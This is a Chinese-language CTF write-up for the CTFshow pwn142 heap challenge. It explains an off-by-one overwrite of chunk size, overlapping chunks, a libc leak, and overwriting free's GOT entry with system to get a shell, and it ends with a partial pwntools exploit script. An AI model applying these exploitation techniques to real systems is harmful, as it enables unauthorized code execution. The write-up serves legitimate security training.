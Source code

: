 这里用CTFshow的[CTFShow-pwn142](https://ctf.show/challenges#pwn142-4161)来试验。
![[Pasted image 20250316211240.png]]
经典的增删查改四个函数，漏洞在`edit`中，可以多写一字节的内容
![[Pasted image 20250316211343.png]]
那么这多出来的一字节，就可以用来修改下一个`chunk`的`size`
![[Pasted image 20250316211843.png]]
这里我们申请了`0x18`大小的`chunk`，可以看到下一个`chunk`的`size`我们是可以修改的
![[Pasted image 20250316211954.png]]
这里我们就需要计算一下，因为`size`修改后的值需要与后面`chunk`大小之和相同
![[Pasted image 20250316213611.png]]
`create_heap`函数中可以看到`malloc`了两个`chunk`，第一个`chunk`大小固定，存的是第二`chunk`的大小和地址，第二个`chunk`的大小就是申请的大小
![[Pasted image 20250323145909.png]]
这里我们`free`后可以看到`free`了两个`chunk`，一个是大小固定的`chunk`，另一个是我们修改了`size`后的`chunk`大小，所以我们再申请一个大小的`0x50`(因为还要算上`size`域这些所以要小`0x10`)的`chunk`,那么就可以覆盖到下一个`chunk`。
![[Pasted image 20250323150324.png]]
这里可以看到新申请的`chunk`以及我们申请的大小为`0x50`的`chunk`都申请成功，且我们可以修改两个`chunk`的指针，把指向`chunk`的指针修改为任意函数的`got`后执行`show`就可以泄漏`libc`，然后再用`edit`就可以修改该函数的`got`。
例如我们这里获取`free`的`got`并修改其为`system`，然后再申请一个新`chunk`里面存的是`/bin/sh`，然后`free`这个`chunk`就相当于执行`system("/bin/sh")`
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
ip, port = 'pwn.challenge.ctf.show:28176'.split(':')
elf_path = './pwn142'
libc_path = './libc-2.27.so'
local = True
debug = True
debug_word = '''
	b create_heap
	b edit_heap
	b show_heap
	b delete_heap
'''
if local:
	p = process(elf_path)
	if debug:
		gdb.attach(p, debug_word)
else:
	p = remote(ip, int(port))


def choose(choice):
	p.recvuntil(b'choice :')
	p.sendline(str(choice))

def create_heap(size, content):
	choose(1)
	p.recvuntil(b'Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil(b'Content of heap:')
	p.send(content)

def edit_heap(idx, content):
	choose(2)
	p.recvuntil(b'Index :')
	p.sendline((str(idx)))
	p.recvuntil(b'Content of heap : ')
	p.send(content)
```